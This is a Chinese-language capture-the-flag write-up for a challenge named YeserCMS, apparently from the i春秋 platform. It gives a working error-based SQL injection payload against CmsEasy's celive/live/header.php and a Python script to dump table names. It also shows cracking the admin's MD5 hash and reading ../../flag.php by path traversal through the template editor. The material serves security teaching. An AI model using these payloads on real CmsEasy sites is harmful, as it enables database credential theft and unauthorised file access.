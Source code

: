 # YeserCMS
## 题目内容
新的CMS系统，帮忙测测是否有漏洞。
## tips
flag在网站根目录下的flag.php中。
## 思路
点开链接，是一个挺复杂的页面：  
![avatar](./picture/YeserCMS_1.png)  
首先，我们需要寻找 CMS 系统的类型，只有知道 CMS 的系统类型，才能对症下药：  
![avatar](./picture/YeserCMS_2.png)  
如图，应该是 CmsEasy 系统。接着，应该去查一下，以前此系统被挖掘出的漏洞：
```
//发送url:

http://localhost/Cmseasy/celive/live/header.php

postdata:
xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx%2527%252C%2528UpdateXML%25281%252CCONCAT%25280x5b%252Cmid%2528%2528SELECT%252f%252a%252a%252fGROUP_CONCAT%2528concat%2528username%252C%2527%257C%2527%252Cpassword%2529%2529%2520from%2520cmseasy_user%2529%252C1%252C32%2529%252C0x5d%2529%252C1%2529%2529%252CNULL%252CNULL%252CNULL%252CNULL%252CNULL%252CNULL%2529--%2520</q></xjxquery>
```
post 里的数据有些部分进行二次 url 编码：解码后如下：  
```
xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(concat(username,'|',password)) from cmseasy_user),1,32),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL)--</q></xjxquery>
```
我们对 post 的内容进行一些修改，将 cmseasy 改为 yesercms， 然后注入：  
![avatar](./picture/YeserCMS_3.png)  
***
按理说，这块应该先爆表的：  
```python
import requests
url = 'http://f151c8f8ba994d4d8d22e16eaa29ea8194d0cbcca401493e.changame.ichunqiu.com/celive/live/header.php'
for i in range(1,999,31):
    postdata = {
    'xajax':'Postdata',
    'xajaxargs[0]':"<xjxquery><q>detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(table_name) from information_schema.tables where table_schema=database()),%s,32),0x5d),1)),NULL,NULL,NULL,NULL, NULL,NULL)-- </q></xjxquery>" %str(i)
}
    r = requests.post(url,data=postdata)
    print (r.content[22:53])
```
从众多表名中发现有用的表名：  
![avatar](./picture/YeserCMS_4.png)  
然后再爆密码。  
***
更改截取位置，继续获取完整密码：  
![avatar](./picture/YeserCMS_5.png)  
手动拼接一下：  
ff512d4240cbbdeafada404677ccbe61  
猜测一波 md5 加密，对其进行 md5 解密：  
![avatar](./picture/YeserCMS_6.png)  
成功了，接着我们用 admin 的账户登录，直接去找模板编辑：  
![avatar](./picture/YeserCMS_7.png)  
并且，根据这个页面，猜测后台是直接读取了文件，用 burp 截一下看看：  
![avatar](./picture/YeserCMS_8.png)  
应该就是了，尝试找 flag.php，最终在“爷爷”级目录下找到了文件 ../../flag.php ：  
![avatar](./picture/YeserCMS_9.png)  

## 考察知识点
1. 查看 CMS 系统的类型  
2. 查找对应 CMS 系统的漏洞信息，并加以利用  
3. md5 加密 password  

